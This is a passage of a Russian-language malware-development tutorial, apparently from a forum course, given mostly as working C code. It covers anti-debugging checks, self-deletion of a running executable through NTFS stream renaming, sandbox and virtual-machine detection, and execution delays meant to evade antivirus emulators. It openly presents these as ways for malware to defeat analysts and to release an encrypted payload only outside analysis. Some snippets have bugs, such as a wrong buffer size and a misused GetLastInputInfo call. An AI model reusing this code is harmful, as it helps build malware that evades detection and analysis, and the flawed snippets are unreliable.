Функция TimeTickCheck2 использует функцию QueryPerformanceCounter WinAPI для обнаружения точек останова. Она возвращает TRUE, если разница между Time2.QuadPart и Time1.QuadPart превышает среднее значение выполнения кода между этими моментами, которое составляет 100000 единиц счета.
C:
BOOL TimeTickCheck2() {
LARGE_INTEGER Time1 = { 0 },
Time2 = { 0 };
if (!QueryPerformanceCounter(&Time1)) {
printf("\t[!] QueryPerformanceCounter [1] Failed With Error : %d \n", GetLastError());
return FALSE;
}
/*
ДРУГОЙ КОД
*/
if (!QueryPerformanceCounter(&Time2)) {
printf("\t[!] QueryPerformanceCounter [2] Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("\t[i] (Time2.QuadPart - Time1.QuadPart) : %d \n", (Time2.QuadPart - Time1.QuadPart));
if ((Time2.QuadPart - Time1.QuadPart) > 100000){
return TRUE;
}
return FALSE;
}Обнаружение отладчика с использованием DebugBreak
Функция DebugBreak вызывает исключение точки останова, EXCEPTION_BREAKPOINT, в текущем процессе. Это исключение должно быть обработано отладчиком, если он подключен к текущему процессу. Техника заключается в вызове исключения и проверке того, попытается ли отладчик его обработать.
Для обработки исключения из вызова DebugBreak используется блок кода с использованием __try и __except, и функция GetExceptionCode используется для извлечения кода исключения. В этом случае существует два возможных сценария:
- Если извлеченное исключение равно EXCEPTION_BREAKPOINT, то выполняется EXCEPTION_EXECUTE_HANDLER, что означает, что исключение не было обработано отладчиком.
- Если исключение не равно EXCEPTION_BREAKPOINT, что означает, что отладчик обработал возникшее исключение (и не наш блок try-except), то выполняется EXCEPTION_CONTINUE_SEARCH, что заставляет отладчик обрабатывать возникшее исключение.
C:
BOOL DebugBreakCheck() {
__try {
DebugBreak();
}
__except (GetExceptionCode() == EXCEPTION_BREAKPOINT ? EXCEPTION_EXECUTE_HANDLER : EXCEPTION_CONTINUE_SEARCH) {
// если исключение равно EXCEPTION_BREAKPOINT, то выполняется EXCEPTION_EXECUTE_HANDLER, и функция возвращает FALSE
return FALSE;
}
// если исключение не равно EXCEPTION_BREAKPOINT, то выполняется EXCEPTION_CONTINUE_SEARCH, и функция возвращает TRUE
return TRUE;
}Обнаружение отладчика с использованием OutputDebugString
Еще одним WinAPI, который можно использовать для обнаружения отладчиков, является OutputDebugString. Эта функция используется для отправки строки в отладчик для отображения. Если отладчик существует, то OutputDebugString успешно выполняет свою задачу.
Можно выполнить OutputDebugString и проверить, не произошла ли ошибка, используя GetLastError. Если произошла ошибка, то GetLastError вернет ненулевой код ошибки. Ненулевое значение кода ошибки в данном случае эквивалентно отсутствию отладчика. Если GetLastError возвращает ноль, это означает, что OutputDebugString успешно отправил строку отладчику.
Функция OutputDebugStringCheck использует вышеуказанную логику и возвращает TRUE, если функция OutputDebugStringW выполнена успешно. Кроме того, она использует SetLastError для установки значения последней ошибки в 1. Это делается просто для того, чтобы убедиться, что это ненулевое значение перед вызовом OutputDebugString, чтобы уменьшить количество ложных срабатываний.
C:
BOOL OutputDebugStringCheck() {
SetLastError(1);
OutputDebugStringW(L"Ru-sfera is debug");
// если GetLastError равно 0, то OutputDebugStringW выполнен успешно
if (GetLastError() == 0) {
return TRUE;
}
return FALSE;
}Обнаружение отладчика с использованием проверки ошибок
Проверка ошибок - это метод антидебаггинга, который пытается найти следы работы отладчика в коде программы. Когда отладчик остановит выполнение программы на точке останова или приостановит ее для анализа, он будет внедрять свой код и использовать свои собственные средства для управления выполнением. Это может привести к появлению дополнительных ошибок в программе, которые обычно не возникают в нормальном режиме выполнения.
Обнаружение таких ошибок может помочь выявить наличие отладчика. Примеры ошибок, которые можно проверить, включают:
- Division by zero (деление на ноль).
- Null pointer dereference (разыменование нулевого указателя).
- Access violation (нарушение доступа к памяти).
- Invalid instruction (недопустимая инструкция).
Важно отметить, что этот метод не всегда надежен, так как ошибки могут возникать и в нормальных условиях выполнения программы. Поэтому он должен использоваться в сочетании с другими методами антидебаггинга для более надежной защиты.
Самоудаление вируса.)
Выше обсуждались несколько техник, которые могут помешать исследователям и аналитикам вредоносных программ изучать вредоносное программное обеспечение и предотвращать понимание его функциональности или создание сигнатур. Теперь предлагаю рассмотреть продвинутую технику анти-отладки, которая работает путем автоматического удаления самого вредоносного программного обеспечения.
Файловая система NTFS
Прежде чем погрузиться в самоудаление, важно понять, как работает файловая система New Technology File System (NTFS). NTFS - это собственная файловая система, реализованная в качестве основной файловой системы для операционной системы Windows. Она превосходит своих предшественников, FAT и exFAT, предлагая такие функции, как разрешения на файлы и папки, сжатие, шифрование, жесткие ссылки, символические ссылки и транзакционные операции. NTFS также обеспечивает увеличенную надежность, производительность и масштабируемость.
Файловая система NTFS также поддерживает альтернативные потоки данных. Файлы в файловых системах NTFS могут иметь несколько потоков данных, кроме потока данных по умолчанию, :$DATA. :$DATA существует для каждого файла, предоставляя альтернативный способ доступа к ним.
Удаление выполняющегося двоичного файла
На Windows невозможно удалить текущий выполняющийся двоичный файл, так как для удаления файла обычно требуется, чтобы ни один другой процесс не использовал его. На изображении ниже показана неудачная попытка удаления папки "Release" при наличии открытого файла внутри этой папки.
Еще одним примером является использование функции DeleteFile WinAPI, которая удаляет существующий файл. Функция DeleteFile WinAPI завершается с ошибкой ERROR_ACCESS_DENIED.
Один из способов обойти это - переименовать поток данных по умолчанию :$DATA в другое случайное имя, которое представляет собой новый поток данных. После этого удаление только что переименованного потока данных приведет к стиранию двоичного файла с диска, даже если он все еще выполняется.
Получение дескриптора файла
Первым шагом процесса является получение дескриптора целевого файла, который представляет собой файл локальной реализации. Дескриптор файла можно получить с помощью функции CreateFile WinAPI. Флаг доступа должен быть установлен в DELETE, чтобы предоставить разрешения на удаление файла.
Переименование потока данных
Следующим шагом для удаления выполняющегося двоичного файла является переименование потока данных :$DATA. Это можно сделать с помощью функции SetFileInformationByHandle WinAPI с флагом FileRenameInfo.
Функция SetFileInformationByHandle WinAPI показана ниже.
C:
BOOL SetFileInformationByHandle(
[in] HANDLE hFile, // Дескриптор файла, для которого изменяется информация.
[in] FILE_INFO_BY_HANDLE_CLASS FileInformationClass, // Значение флага, указывающее тип информации, которую нужно изменить
[in] LPVOID lpFileInformation, // Указатель на буфер, содержащий информацию для изменения
[in] DWORD dwBufferSize // Размер буфера 'lpFileInformation' в байтах
);Параметр FileInformationClass должен быть значением перечисления FILE_INFO_BY_HANDLE_CLASS.
Когда параметр FileInformationClass установлен в FileRenameInfo, то lpFileInformation должен быть указателем на структуру FILE_RENAME_INFO, как показано в следующем изображении
Структура FILE_RENAME_INFO показана ниже.
C:
typedef struct _FILE_RENAME_INFO {
union {
BOOLEAN ReplaceIfExists;
DWORD Flags;
} DUMMYUNIONNAME;
BOOLEAN ReplaceIfExists;
HANDLE RootDirectory;
DWORD FileNameLength; // Размер 'FileName' в байтах
WCHAR FileName[1]; // Новое имя
} FILE_RENAME_INFO, *PFILE_RENAME_INFO;Два члена, которые необходимо установить, - это FileNameLength и FileName. Документация Microsoft объясняет, как определить новое имя потока данных NTFS.
Следовательно, FileName должен быть строкой широких символов, начинающейся с двоеточия
 ).
).Удаление потока данных
Последним шагом является удаление потока данных :$DATA для стирания файла с диска. Для этого будет использоваться та же функция SetFileInformationByHandle WinAPI, но с другим флагом, FileDispositionInfo. Этот флаг помечает файл для удаления при закрытии его дескриптора. Это флаг, который использует Microsoft в приведенном ниже примере.
Когда используется флаг FileDispositionInfo, lpFileInformation должен быть указателем на структуру FILE_DISPOSITION_INFO, как показано в следующем изображении
Структура FILE_DISPOSITION_INFO показана ниже.
C:
typedef struct _FILE_DISPOSITION_INFO {
BOOLEAN DeleteFile; // Установите в 'TRUE', чтобы пометить файл для удаления
} FILE_DISPOSITION_INFO, *PFILE_DISPOSITION_INFO;Член DeleteFile должен просто быть установлен в TRUE для удаления файла.
Обновление потока данных файла
После вызова функции SetFileInformationByHandle в первый раз для переименования потока данных файла NTFS, дескриптор файла должен быть закрыт и затем снова открыт с помощью другого вызова функции CreateFile. Это делается для обновления потока данных файла, чтобы новый дескриптор содержал новый поток данных.
Заключительный код самоудаления
Функция DeleteSelf, показанная ниже, использует описанный процесс для удаления файла с диска во время его выполнения.
Весь код в следующем фрагменте был ранее объяснен, за исключением функции GetModuleFileNameW WinAPI. Эта функция используется для получения пути к файлу, содержащему указанный модуль. Если первый параметр установлен в NULL (как в приведенном ниже коде), то она получает путь к исполняемому файлу текущего процесса.
C:
// Новое имя потока данных
#define NEW_STREAM L":RuSfera"
BOOL DeleteSelf() {
scss
Copy code
WCHAR szPath [MAX_PATH * 2] = { 0 };
FILE_DISPOSITION_INFO Delete = { 0 };
HANDLE hFile = INVALID_HANDLE_VALUE;
PFILE_RENAME_INFO pRename = NULL;
const wchar_t* NewStream = (const wchar_t*)NEW_STREAM;
SIZE_T sRename = sizeof(FILE_RENAME_INFO) + sizeof(NewStream);
// Выделение достаточного буфера для структуры 'FILE_RENAME_INFO'
pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
if (!pRename) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Очистка некоторых структур
ZeroMemory(szPath, sizeof(szPath));
ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));
//----------------------------------------------------------------------------------------
// Пометка файла для удаления (используется во 2-м вызове SetFileInformationByHandle)
Delete.DeleteFile = TRUE;
// Установка буфера нового имени потока данных и его размера в структуре 'FILE_RENAME_INFO'
pRename->FileNameLength = sizeof(NewStream);
RtlCopyMemory(pRename->FileName, NewStream, sizeof(NewStream));
//----------------------------------------------------------------------------------------
// Используется для получения текущего имени файла
if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
return FALSE;
}
//----------------------------------------------------------------------------------------
// ПЕРЕИМЕНОВАНИЕ
// Открытие дескриптора текущего файла
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[i] Renaming :$DATA to %s ...", NEW_STREAM);
// Переименование потока данных
if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[+] DONE \n");
CloseHandle(hFile);
//----------------------------------------------------------------------------------------
// УДАЛЕНИЕ
// Открытие нового дескриптора текущего файла
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[i] DELETING ...");
// Пометка для удаления после закрытия дескриптора файла
if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
return FALSE;
}
wprintf(L"[+] DONE \n");
CloseHandle(hFile);
//----------------------------------------------------------------------------------------
// Освобождение выделенного буфера
HeapFree(GetProcessHeap(), 0, pRename);
return TRUE;
}Демонстрация
На изображении ниже показан процесс SelfDeletion.exe, работающий, хотя двоичный файл был стерт с диска.
Обход виртуальных машин
В этой статье давайте рассмотрим техники антивиртуализации, в случае если вирус пытаются запустить в виртуальной среде или песочнице.
Антивиртуализация через характеристики аппаратного обеспечения
В общем случае виртуализированные среды не имеют полного доступа к аппаратному обеспечению хост-машины. Отсутствие полного доступа к аппаратуре может быть использовано вредоносным программным обеспечением для определения, выполняется ли оно внутри виртуальной среды или песочницы. Учитывайте, что не существует гарантии полной точности, потому что машина может просто выполняться с низкими характеристиками аппаратного обеспечения. Проверяемые характеристики аппаратного обеспечения следующие:
- Центральный процессор (CPU) - проверка наличия менее чем 2 процессоров.
- Оперативная память (RAM) - проверка наличия менее чем 2 гигабайтов.
- Количество ранее подключенных устройств USB - проверка наличия менее чем 2 USB-устройств.
Проверка ЦПУ может быть выполнена с использованием функции GetSystemInfo WinAPI. Эта функция возвращает структуру SYSTEM_INFO, содержащую информацию о системе, включая количество процессоров.
C:
SYSTEM_INFO SysInfo = { 0 };
GetSystemInfo(&SysInfo);
if (SysInfo.dwNumberOfProcessors < 2) {
// возможно, виртуализированное окружение
}Проверка оперативной памяти (RAM)
Проверку доступной оперативной памяти можно выполнить с помощью функции GlobalMemoryStatusEx WinAPI. Эта функция возвращает структуру MEMORYSTATUSEX, содержащую информацию о текущем состоянии физической и виртуальной памяти в системе. Объем оперативной памяти можно найти через член ullTotalPhys. Он содержит количество текущей физической памяти в байтах.
C:
MEMORYSTATUSEX MemStatus = { .dwLength = sizeof(MEMORYSTATUSEX) };
if (!GlobalMemoryStatusEx(&MemStatus)) {
printf("\n\t[!] GlobalMemoryStatusEx завершился с ошибкой: %d \n", GetLastError());
}
if ((DWORD)MemStatus.ullTotalPhys <= (DWORD)(2 * 1073741824)) {
// возможно, виртуализированное окружение
}Обратите внимание, что 2 * 1073741824 - это размер двух гигабайтов в байтах.
Проверка числа ранее подключенных USB-устройств
Наконец, количество ранее подключенных USB-устройств в системе можно проверить через реестр HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Enum\USBSTOR. Значение реестра можно получить с помощью функций RegOpenKeyExA и RegQueryInfoKeyA WinAPI.
C:
HKEY hKey = NULL;
DWORD dwUsbNumber = NULL;
DWORD dwRegErr = NULL;
if ((dwRegErr = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SYSTEM\\ControlSet001\\Enum\\USBSTOR", NULL, KEY_READ, &hKey)) != ERROR_SUCCESS) {
printf("\n\t[!] RegOpenKeyExA завершился с ошибкой: %d | 0x%0.8X \n", dwRegErr, dwRegErr);
}
if ((dwRegErr = RegQueryInfoKeyA(hKey, NULL, NULL, NULL, &dwUsbNumber, NULL, NULL, NULL, NULL, NULL, NULL, NULL)) != ERROR_SUCCESS) {
printf("\n\t[!] RegQueryInfoKeyA завершился с ошибкой: %d | 0x%0.8X \n", dwRegErr, dwRegErr);
}
// Менее 2 ранее подключенных USB-устройств
if (dwUsbNumber < 2) {
// возможно, виртуализированное окружение
}Антивиртуализация через характеристики аппаратного обеспечения (код)
Предыдущие фрагменты кода объединяются в одну функцию IsVenvByHardwareCheck. Эта функция возвращает TRUE, если она обнаруживает виртуализированное окружение.
C:
BOOL IsVenvByHardwareCheck() {
SYSTEM_INFO SysInfo = { 0 };
MEMORYSTATUSEX MemStatus = { .dwLength = sizeof(MEMORYSTATUSEX) };
HKEY hKey = NULL;
DWORD dwUsbNumber = NULL;
DWORD dwRegErr = NULL;
// ПРОВЕРКА ЦПУ
GetSystemInfo(&SysInfo);
// Менее 2 процессоров
if (SysInfo.dwNumberOfProcessors < 2) {
return TRUE;
}
// ПРОВЕРКА ОПЕРАТИВНОЙ ПАМЯТИ (RAM)
if (!GlobalMemoryStatusEx(&MemStatus)) {
printf("\n\t[!] GlobalMemoryStatusEx завершился с ошибкой: %d \n", GetLastError());
return FALSE;
}
// Менее 2 гб оперативной памяти
if ((DWORD)MemStatus.ullTotalPhys < (DWORD)(2 * 1073741824)) {
return TRUE;
}
// ПРОВЕРКА КОЛИЧЕСТВА РАНЕЕ ПОДКЛЮЧЕННЫХ USB-УСТРОЙСТВ
if ((dwRegErr = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SYSTEM\\ControlSet001\\Enum\\USBSTOR", NULL, KEY_READ, &hKey)) != ERROR_SUCCESS) {
printf("\n\t[!] RegOpenKeyExA завершился с ошибкой: %d | 0x%0.8X \n", dwRegErr, dwRegErr);
return FALSE;
}
if ((dwRegErr = RegQueryInfoKeyA(hKey, NULL, NULL, NULL, &dwUsbNumber, NULL, NULL, NULL, NULL, NULL, NULL, NULL)) != ERROR_SUCCESS) {
printf("\n\t[!] RegQueryInfoKeyA завершился с ошибкой: %d | 0x%0.8X \n", dwRegErr, dwRegErr);
return FALSE;
}
// Менее 2 ранее подключенных USB-устройств
if (dwUsbNumber < 2) {
return TRUE;
}
RegCloseKey(hKey);
return FALSE;
}Антивиртуализация через разрешение машины
В песочной среде разрешение и свойства отображения машины часто устанавливаются на стандартизированное и постоянное значение, которое может отличаться от разрешения и свойств отображения реальной машины. Поэтому машины с низким разрешением могут служить индикатором виртуализированной среды.
С программной точки зрения первым шагом будет перечисление мониторов отображения системы с использованием функции EnumDisplayMonitors WinAPI.
Функция EnumDisplayMonitors требует выполнения функции обратного вызова для каждого обнаруженного монитора отображения, в этой функции обратного вызова должна вызываться функция GetMonitorInfoW WinAPI. Эта функция извлекает разрешение монитора отображения.
Информация, полученная от GetMonitorInfoW, возвращается как структура MONITORINFO, которая показана ниже.
C:
typedef struct tagMONITORINFO {
DWORD cbSize; // Размер структуры
RECT rcMonitor; // Прямоугольник монитора отображения, выраженный в координатах виртуального экрана
RECT rcWork; // Прямоугольник рабочей области монитора отображения, выраженный в координатах виртуального экрана
DWORD dwFlags; // Представляет атрибуты монитора отображения
} MONITORINFO, *LPMONITORINFO;Член rcMonitor содержит необходимую информацию. Этот член также является структурой типа RECT, которая определяет прямоугольник через координаты его верхнего левого и нижнего правого углов.
После извлечения значений структуры RECT выполняются вычисления для определения фактических координат отображения:
MONITORINFO.rcMonitor.right - MONITORINFO.rcMonitor.left - Это дает нам ширину (значение X).
MONITORINFO.rcMonitor.top - MONITORINFO.rcMonitor.bottom - Это дает нам высоту (значение Y).
Антивиртуализация через разрешение машины (код)
Функция CheckMachineResolution использует описанный процесс, при котором вычисляется разрешение машины, путем выполнения функции обратного вызова ResolutionCallback.
C:
// Функция обратного вызова, вызываемая всякий раз, когда 'EnumDisplayMonitors' обнаруживает монитор
BOOL CALLBACK ResolutionCallback(HMONITOR hMonitor, HDC hdcMonitor, LPRECT lpRect, LPARAM ldata) {
int X = 0,
Y = 0;
MONITORINFO MI = { .cbSize = sizeof(MONITORINFO) };
if (!GetMonitorInfoW(hMonitor, &MI)) {
printf("\n\t[!] GetMonitorInfoW завершился с ошибкой: %d \n", GetLastError());
return FALSE;
}
// Вычисление координат X отображения
X = MI.rcMonitor.right - MI.rcMonitor.left;
// Вычисление координат Y отображения
Y = MI.rcMonitor.top - MI.rcMonitor.bottom;
// Если числа отрицательные, меняем их
if (X < 0)
X = -X;
if (Y < 0)
Y = -Y;
if ((X != 1920 && X != 2560 && X != 1440) || (Y != 1080 && Y != 1200 && Y != 1600 && Y != 900))
*((BOOL*)ldata) = TRUE; // обнаружена песочница
return TRUE;
}
BOOL CheckMachineResolution() {
BOOL SANDBOX = FALSE;
// SANDBOX будет установлен в TRUE 'EnumDisplayMonitors', если обнаружена песочница
EnumDisplayMonitors(NULL, NULL, (MONITORENUMPROC)ResolutionCallback, (LPARAM)(&SANDBOX));
return SANDBOX;
}Антивиртуализация через имя файла
Песочницы часто переименовывают файлы в качестве метода классификации (например, переименовывают файл в его хэш MD5). Этот процесс обычно приводит к произвольному имени файла смешанными буквами и цифрами.
Функция ExeDigitsInNameCheck, показанная ниже, используется для подсчета количества цифр в текущем имени файла. Она использует функцию GetModuleFileNameA для получения имени файла (включая путь) и затем PathFindFileNameA для разделения имени файла от пути.
Затем используется функция isdigit для определения, являются ли символы в имени файла цифрами. Если в имени файла содержится более 3 цифр, то ExeDigitsInNameCheck предполагает, что это песочница, и возвращает TRUE.
C:
BOOL ExeDigitsInNameCheck() {
CHAR Path[MAX_PATH * 3];
CHAR cName[MAX_PATH];
DWORD dwNumberOfDigits = NULL;
// Получение текущего имени файла (с полным путем)
if (!GetModuleFileNameA(NULL, Path, MAX_PATH * 3)) {
printf("\n\t[!] GetModuleFileNameA завершился с ошибкой: %d \n", GetLastError());
return FALSE;
}
// Защита от переполнения буфера - получение имени файла из полного пути
if (lstrlenA(PathFindFileNameA(Path)) < MAX_PATH)
lstrcpyA(cName, PathFindFileNameA(Path));
// Подсчет количества цифр
for (int i = 0; i < lstrlenA(cName); i++) {
if (isdigit(cName[i]))
dwNumberOfDigits++;
}
// Максимальное допустимое количество цифр: 3
if (dwNumberOfDigits > 3) {
return TRUE;
}
return FALSE;
}Антивиртуализация через количество работающих процессов
Еще одним способом обнаружения виртуализированной среды является проверка количества работающих процессов в системе. Песочницы обычно не имеют много приложений установленных и, следовательно, имеют меньше работающих процессов. Как и в предыдущих методах, это не является универсальным методом, который гарантированно определит систему как песочницу. В системе Windows должно быть как минимум 60-70 работающих процессов.
Процессы будут перечисляться с использованием методики EnumProcesses. Функция CheckMachineProcesses возвращает TRUE, если она обнаруживает песочницу, то есть если в системе запущено менее 50 процессов.
C:
BOOL CheckMachineProcesses() {
DWORD adwProcesses[1024];
DWORD dwReturnLen = NULL,
dwNmbrOfPids = NULL;
if (!EnumProcesses(adwProcesses, sizeof(adwProcesses), &dwReturnLen)) {
printf("\n\t[!] EnumProcesses завершился с ошибкой: %d \n", GetLastError());
return FALSE;
}
dwNmbrOfPids = dwReturnLen / sizeof(DWORD);
// Если менее 50 процессов, возможно, это песочница
if (dwNmbrOfPids < 50)
return TRUE;
return FALSE;
}Антивиртуализация через взаимодействие с пользователем
Песочницы часто работают в безголовом окружении, то есть без дисплея или периферийных устройств, таких как клавиатура и мышь. Безголовые окружения также обычно автоматизированы и запускаются сценариями или другими инструментами. Отсутствие взаимодействия с пользователем может быть индикатором возможного песочничного окружения. Например, вредоносное программное обеспечение может проверить, не поступило ли в окружение ни одного щелчка мыши или нажатия клавиши в течение определенного периода.
Вспомните Кунгфу-2.Изучаем API Hooking | Цикл статей "Изучение вредоносных программ", где использовались функции SetWindowsHookExW и CallNextHookEx WinAPI для отслеживания щелчков мыши. Та же самая техника применяется в следующей функции, MouseClicksLogger. Если в течение 20 секунд она не получает более 5 щелчков мыши, то предполагается, что находится в песочничной среде.
C:
// Мониторинг щелчков мыши в течение 20 секунд
#define MONITOR_TIME 20000 // Глобальная переменная для хранения обработчика глобального хука
HHOOK g_hMouseHook = NULL;
// Глобальный счетчик щелчков мыши
DWORD g_dwMouseClicks = NULL;
// Функция обратного вызова, которая будет выполнена при щелчке мыши пользователем
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam) {
// WM_RBUTTONDOWN : "Щелчок правой кнопкой мыши"
// WM_LBUTTONDOWN : "Щелчок левой кнопкой мыши"
// WM_MBUTTONDOWN : "Щелчок средней кнопкой мыши"
if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
printf("[+] Зарегистрирован щелчок мыши \n");
g_dwMouseClicks++;
}
return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}
BOOL MouseClicksLogger() {
MSG Msg = { 0 };
// Установка хука
g_hMouseHook = SetWindowsHookExW(
WH_MOUSE_LL,
(HOOKPROC)HookEvent,
NULL,
NULL
);
if (!g_hMouseHook) {
printf("[!] SetWindowsHookExW завершился с ошибкой: %d \n", GetLastError());
}
// Обработка неперехваченных событий
while (GetMessageW(&Msg, NULL, NULL, NULL)) {
DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
}
return TRUE;
}
int main() {
HANDLE hThread = NULL;
// ...
// Запуск потока для отслеживания щелчков мыши
if (!(hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MouseClicksLogger, NULL, 0, NULL))) {
printf("[!] CreateThread завершился с ошибкой: %d \n", GetLastError());
return 1;
}
// ...
// Ожидание завершения потока
WaitForSingleObject(hThread, INFINITE);
return 0;
}Антивиртуализация через скорость взаимодействия с пользователями
Скорость взаимодействия с пользователем также может быть использована в антивиртуализации. Песочницы могут работать с определенной фиксированной скоростью, в то время как реальные пользователи будут взаимодействовать с системой несколько более непредсказуемо. Например, если в течение короткого периода времени происходит слишком много взаимодействий с пользователем, это может указывать на наличие песочницы.
В приведенной ниже функции MonitorUserActivity, мы следим за интервалом времени между последним взаимодействием пользователя с клавиатурой или мышью. Если интервал слишком короткий, это может быть признаком того, что система находится в виртуализированной среде.
C:
BOOL MonitorUserActivity() {
LASTINPUTINFO lii = { sizeof(LASTINPUTINFO) };
DWORD dwLastInputTime = NULL;
DWORD dwCurrentTime = NULL;
DWORD dwElapsedTime = NULL;
// Получение времени последнего ввода
if (!GetLastInputInfo(&dwLastInputTime)) {
printf("\n\t[!] GetLastInputInfo завершился с ошибкой: %d \n", GetLastError());
return FALSE;
}
// Получение текущего времени
dwCurrentTime = GetTickCount();
// Вычисление времени бездействия
dwElapsedTime = dwCurrentTime - dwLastInputTime;
// Если время бездействия менее 5 секунд, предполагаем, что это песочница
if (dwElapsedTime < 5000) {
return TRUE;
}
return FALSE;
}Важно ещё то-что, эти методы, также как и методы антидебага из предыдущей статьи, можно использовать для получения ключа пароля, например зашифрованного пейлоада, в случае если вирус не запущен под виртуальной системы, то пейлоад запустится, иначе нет.
Необязательно возвращать true и else, можно возвращать числовые значения, например число процессов, разрешение экрана и т.д. и на основе этих данных генерировать уже ключ.)
Обратите внимание, что приведенные выше методы антивиртуализации могут быть полезными в некоторых случаях, но они не гарантируют 100% определения виртуализированной среды. Виртуализация и антивиртуализация - это постоянное соревнование, и вредоносные программы могут разрабатываться с учетом этих методов антивиртуализации. Также важно помнить, что использование антивиртуализации может привести к ложным срабатываниям в реальных средах, что может вызвать проблемы для пользователей.
Давайте теперь рассмотрим способы обхода эмулятора антивируса, по сути это тоже виртуальная среда, только в движке антивируса.
Рекомендуется это использовать с методами выше, но важно это использовать для генерации каких-то критичных данных, например ключа для расшифровки или ещё что-то.
Задержка выполнения - это общая техника, используемая для обхода изолированных сред. В песочницах обычно устанавливаются временные ограничения, которые не позволяют анализировать бинарный файл в течение длительного времени. Поэтому вредоносное программное обеспечение может внести длительные паузы в выполнение кода, что заставит песочницу завершить работу до того, как она сможет проанализировать бинарный файл.
Если у песочницы есть ограничение на анализ в течение двух минут, она не сможет проанализировать полезную нагрузку, если образец вредоносного программного обеспечения выполняет функцию ожидания в течение трех минут перед расшифровкой и выполнением её.
Эта статья представит функции, которые можно использовать для задержки выполнения полезной нагрузки.
Несколько образцов вредоносного программного обеспечения использовали задержки в выполнении, поэтому большинство песочниц применили меры по устранению задержек в выполнении. Такие меры могут включать в себя ускорение задержек, либо изменяя параметры, передаваемые через перехват API, либо другими способами. Проверка того, что задержка произошла, является важной, и её можно достичь с помощью WinAPI, GetTickCount64.
Функция задержки может выглядеть примерно так:
C:
BOOL DelayFunction(DWORD dwMilliSeconds) {
DWORD T0 = GetTickCount64();
// Код, необходимый для задержки выполнения на 'dwMilliSeconds' миллисекунд
DWORD T1 = GetTickCount64();
// Прошло как минимум 'dwMilliSeconds' миллисекунд, значит, 'DelayFunction' выполнена успешно
if ((DWORD)(T1 - T0) < dwMilliSeconds)
return FALSE;
else
return TRUE;
}Задержка выполнения с использованием WaitForSingleObject
WinAPI WaitForSingleObject использовался на протяжении всего этого курса для ожидания наступления сигнала у конкретного объекта или для завершения тайм-аута. В этом разделе WaitForSingleObject будет использоваться для ожидания пустого события, созданного с использованием CreateEvent, что означает ожидание истечения тайм-аута.
Функция DelayExecutionVia_WFSO имеет один параметр, ftMinutes, который представляет собой время задержки выполнения в минутах. Функция возвращает TRUE, если WaitForSingleObject успешно задерживает выполнение на указанное время.
C:
BOOL DelayExecutionVia_WFSO(FLOAT ftMinutes) {
// Преобразование минут в миллисекунды
DWORD dwMilliSeconds = ftMinutes * 60000;
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
DWORD _T0 = NULL,
_T1 = NULL;
_T0 = GetTickCount64();
// Ожидание в течение 'dwMilliSeconds' мс
if (WaitForSingleObject(hEvent, dwMilliSeconds) == WAIT_FAILED) {
printf("[!] WaitForSingleObject Failed With Error : %d \n", GetLastError());
return FALSE;
}
_T1 = GetTickCount64();
// Прошло как минимум 'dwMilliSeconds' миллисекунд, значит, 'DelayExecutionVia_WFSO' выполнена успешно
if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
return FALSE;
CloseHandle(hEvent);
return TRUE;
}Задержка выполнения с использованием MsgWaitForMultipleObjectsEx
Другим WinAPI, который можно использовать для задержки выполнения, является WinAPI MsgWaitForMultipleObjectsEx. Он выполняет ту же задачу, что и WaitForSingleObject, и также демонстрировался в предыдущих статьях.
Функция DelayExecutionVia_MWFMOEx использует ту же логику, показанную в предыдущем разделе, за исключением того, что здесь используется WinAPI MsgWaitForMultipleObjectsEx. Функция имеет один параметр, ftMinutes, который представляет собой время задержки выполнения в минутах. Функция возвращает TRUE, если MsgWaitForMultipleObjectsEx успешно задерживает выполнение на указанное время.
C:
BOOL DelayExecutionVia_MWFMOEx(FLOAT ftMinutes) {
// Преобразование минут в миллисекунды
DWORD dwMilliSeconds = ftMinutes * 60000;
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
DWORD _T0 = NULL,
_T1 = NULL;
_T0 = GetTickCount64();
// Ожидание в течение 'dwMilliSeconds' мс
if (MsgWaitForMultipleObjectsEx(1, &hEvent, dwMilliSeconds, QS_HOTKEY, NULL) == WAIT_FAILED) {
printf("[!] MsgWaitForMultipleObjectsEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
_T1 = GetTickCount64();
// Прошло как минимум 'dwMilliSeconds' миллисекунд, значит, 'DelayExecutionVia_MWFMOEx' выполнена успешно
if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
return FALSE;
CloseHandle(hEvent);
return TRUE;
}Задержка выполнения с использованием NtWaitForSingleObject
Задержки выполнения кода также можно выполнять с использованием системного вызова NtWaitForSingleObject. NtWaitForSingleObject - это нативная версия API WaitForSingleObject и выполняет ту же функцию. NtWaitForSingleObject показан ниже.
C:
